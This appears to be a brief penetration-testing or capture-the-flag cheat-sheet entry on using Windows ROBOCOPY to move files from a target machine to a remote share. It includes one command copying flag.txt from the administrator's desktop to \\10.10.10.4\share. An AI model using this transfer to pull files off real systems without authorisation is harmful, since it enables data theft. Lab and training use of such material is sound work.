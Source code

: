 # ROBOCOPY: Reverse File Transfer

Files can be copied from a Windows machine **to a file share**, e.g., `\\10.10.10.4\share` by using [ROBOCOPY](https://docs.microsoft.com/en-us/windows-server/administration/windows-commands/robocopy).  **Multi-threading** can be enabled for higher performance (with `/mt` parameter) and the ability to **restart** the transfer in case it's interrupted can be added (with `/z` parameter)

    robocopy c:\users\administrator\desktop  \\10.10.10.4\share\  flag.txt /mt /z

## References

* https://docs.microsoft.com/en-us/windows-server/administration/windows-commands/robocopy